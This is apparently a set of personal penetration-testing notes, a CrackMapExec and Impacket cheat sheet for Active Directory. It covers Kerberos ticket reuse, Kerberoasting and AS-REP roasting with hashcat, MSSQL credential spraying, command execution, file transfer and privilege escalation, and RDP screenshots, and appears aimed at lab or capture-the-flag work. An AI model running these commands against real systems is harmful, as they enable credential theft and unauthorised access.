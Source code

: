- **ccache: Credential Cache**, holds kerberos credentials
  - KRB5CCNAME
1. generate TGT
   - getTGT domain/user:pass -dc-ip TARGET
   - export KRB5CCNAME=$(pwd)/username
2. Use ccache
   - cme smb/ldap --use-kcache
     - --shares
   - cme mssql COMPUTER|DOMAIN --use-kcache

### Kerberoastable
- Extract TGT und NTML hash
- cme ldap  
- hashcat -m 13100

### ASREPRoast
- Obtain hash
- users without kereberos authentication
- AS_REQ
- crackmapexe ldap domain.htb -u USER -p PASS --asreproast asreproast.out
- GetNPUsers -dc-ip $TARGET DOMAIN.LOCAL/ -usersfile users.txt -format hashcat -outputfile asrep.txt

- hashcat -m 18200

## crackmapexec_MSSQL
- --local-auth
 - wind auth mode: default, integrated, 
 - mixed mode: username:pass
 - AD account + Local windows account + SQL account
  - AD:    crackmapexec mssql $target -u ufound.txt -p pfound.txt
  - Local account: crackmapexec mssql $target -u ufound.txt -p pfound.txt -d .
  - SQL:   crackmapexec mssql $target -u ufound.txt -p pfound.txt --local-auth
- [Queries](https://github.com/SofianeHamlaoui/Pentest-Notes/blob/master/Security_cheatsheets/databases/sqlserver/1-enumeration.md)
  - -q 
    - "SELECT name FROM master.dbo.sysdatabases"
    - "SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES"
    - "SELECT * from [DATABASE].[dbo].table" 
- Commands
  -  -x
- Transfer files
  - --put-file file.txt C:/path/to/target
  - -x "read file"
  - --get-file C:/path/to/target file
- Privelege Escalation
  - -M mssql_priv -o ACTION=enum_priv/privesc/rollback

## RDP
- cme rdp -u user -p pass
  - --nla-screenshot
  - --screentime
  - --screeshot
    - --res (resolutio)
